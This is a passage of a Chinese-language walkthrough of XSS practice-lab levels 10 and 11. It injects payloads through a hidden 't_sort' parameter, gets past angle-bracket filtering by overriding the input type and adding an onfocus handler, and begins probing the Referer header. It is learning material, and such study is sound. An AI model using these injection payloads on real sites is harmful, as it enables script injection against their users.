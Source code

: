 没输入框了，参数在URL里。

输入的东西都被实体转义了，看源代码发现有三个参数，都测了一下。

```html
<form id=search>
<input name="t_link"  value="" type="hidden">
<input name="t_history"  value="" type="hidden">
<input name="t_sort"  value="" type="hidden">
</form>
```

发现`t_sort`有回显，输出到了value里，于是不用管keyword了，直接使用`t_sort`参数注。

```http
t_sort="><script>alert();</script>
```

返回的结果里发现大小于号被过滤了。

```html
<input name="t_sort"  value=""scriptalert();/script" type="hidden">
```

把后面的hidden给覆盖掉，再加一个事件触发即可：

```html
t_sort="%20type="text"%20onfocus="alert()
```

## Level 11

跟第十题比较类似，隐藏参数。

一次测试所以参数回显：

```http
keyword=good%20job!&t_link=1&t_history=2&t_sort=3&t_ref=4
```

还是`t_sort`的回显，直接使用上一关的Payload试试，返回：

```html
<input name="t_sort"  value="&quot; type=&quot;text&quot; onfocus=&quot;alert()" type="hidden">
```

说明这个参数肯定是注入不了了。

看`t_ref`，应该是作者的提示，测试一下Refer头看看：

```http
GET /level11.php? HTTP/1.1
Host: localhost
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Referer: evalexp.top
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

```
